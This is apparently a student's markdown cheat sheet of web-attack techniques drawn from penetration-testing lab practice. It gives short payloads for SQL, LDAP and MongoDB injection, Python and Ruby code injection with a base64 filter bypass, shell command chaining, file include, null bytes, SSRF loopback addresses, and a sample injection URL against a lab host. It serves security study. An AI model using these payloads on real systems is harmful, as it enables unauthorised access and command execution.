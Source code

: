 ```yaml
---
title: Essentials
layout: post
---
```


## Comment
`%00` would be good to also think about
php: `//` `#` `/**/` ; string concatenation: `'string1'.'string2'`
sql: `--` `#`

## SQL
By default SQL will ignore trailing spaces. Also SQL is not case sensitive.
i.e. "Admin " and "admin" are the same

## Server Response
If the response code is `3xx`(redirection) or `201`(created), and the `Location` response header exists, the page is redirected to where the `Location` header specifies.

## file format
There might be useful information in json or js format. It can be accessed via formatting the `accept` header or by messing with the url.

## Mass-Assignment
adding attributes to submitting data. e.g. `user[admin]=true`
Let's say there is an attribute like 'organisation'. Ids might be assigned rather than the string of the name of the organization, i.e. `organisation_id`.

## Remote Code Execution / Code Injection
Null byte(`NULL %00`) injection could be to control the string to owns liking.

### php
Since PHP 5.3.4, paths with null in them are considered invalid.
`phpinfo()` is a great function to use to confirm penetration.


### Ruby
참고:https://stackoverflow.com/questions/6338908/ruby-difference-between-exec-system-and-x-or-backticks
In ruby, backticks can be used for code injection e.g. \`uname\`

Ruby comments are #.
One thing to note is, in url, + are just another way of expressing space.
To write + in html url, you must write the hexidecimal version of it which is `%2b`

### Python
`os.system()` or   `os.popen().read()` can be used.
#### importing
`__import__('os').system('ls')` or `__import__('os').popen('ls').read()`
https://stackoverflow.com/questions/28231738/import-vs-import-vs-importlib-import-module

#### bypassing restrictions for inserting certain characters directly
Indirectly pass strings on by encoding the string in something like *base64* and decode the thing within the code injection.
e.g. `__import__('base64').b64decode(LOCALLY_INCODED_STRING)`

## Command Execution
Just as a reminder
- command1 && command2 that will run command2 if command1 succeeds.
- command1 || command2 that will run command2 if command1 fails.
- command1 ; command2 that will run command1 then command2.
- command1 | command2 that will run command1 and send the output of command1 to command2.; *referred to as pipelining*

If there are situations in which the output is only put onto the standard output which you do not have access to, connect to your device using **netcat, curl, ping, etc..** to confirm penetration. (On an unrelated note, god the world *penetration* gives off this weird vibe and I hate it lol)

***In the command line, commands within backticks(`) are executed first, and then the main command is run***
***$([COMMAND]) is the more modern method. It is recommended over backticks because backticks are easy to confuse it with single quotes***

## Directory Traversal
The directory `/etc/../../../../../../` is the same as `/` because the excess `../` does not matter and will be disregarded automatically.


## File Include
### php
Include function can include outside files from the http protocol. e.g. http://[URL]/?include=http://[SERVER IP]

### Possible Security Measures
1. The prefix could limited to enusre no file traverse.

## LDAP (Lightweight Directory Access Protocol)
Some LDAP servers approve NULL bind entry.

Filters are used to sort out data.
※ `cn` = condition
- OR: `(|(cn=[INPUT1])(cn=[INPUT2]))`
- AND: `(&(cn=[INPUT1])(cn=[INPUT2]))`

A filter used for logging users in could look like the following.
`(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))`

Injection can be done by the following methods:
1. `%00` (NULL) injection


## MongoDB
MongoDB stores data in json files.
`|| 1==1` is the MongoDB equivalent of `1=1`
this.[attribute].match([regex]) to see if certain attribute matches your set condition. e.g.`admin' && this.password.match([regex])`

## SQL Injection
`SELECT * FROM [table] WHERE username=[username] AND password =[password];`
`/login.php?username=admin' or 1=1 -- ` or `/login.php?username=admin' -- `

Possible security measures.
1. Check if the number of content returned is 1. -> use `LIMIT`
2. Restricts spaces (NO SPACE) -> use `\t` in the place of spaces
3. Restricts spaces AND tabs -> use `#`

### Character encding(charset) inconsistencies
`%bf%27`, if not having the correct charset, could be interpreted as `¿` and a `'`. This is due to the database not having the charset necessary.
This exploitation can be prevented by a simple `SETT CHARACTER SET 'GBK';`

## SSRF (Server Side Request Forgery)
### different ways of loopback
1. `localhost` 
2. `127.0.0.1`
> IPv4 network standards reserve the entire 127.0.0.0/8 address block for loopback purposes.
So basically, `127.0.0.1 ~ 127.255.255.254` are all reserved for loopback.

## Questions
1. https://ptl-c04f30b2-0d3cba74.libcurl.so/hello/hacker%22%2bstr(exec('import%20os'))%2bstr(os.popen('ls').read())%2b%22 why doens't this url work?
2. weirdly enough, in sql injection, there needs to be a space after `--` for the code to work. i.e. `-- `. Why is that?

## Things that might be worth studying
1. Character encoding; code injection
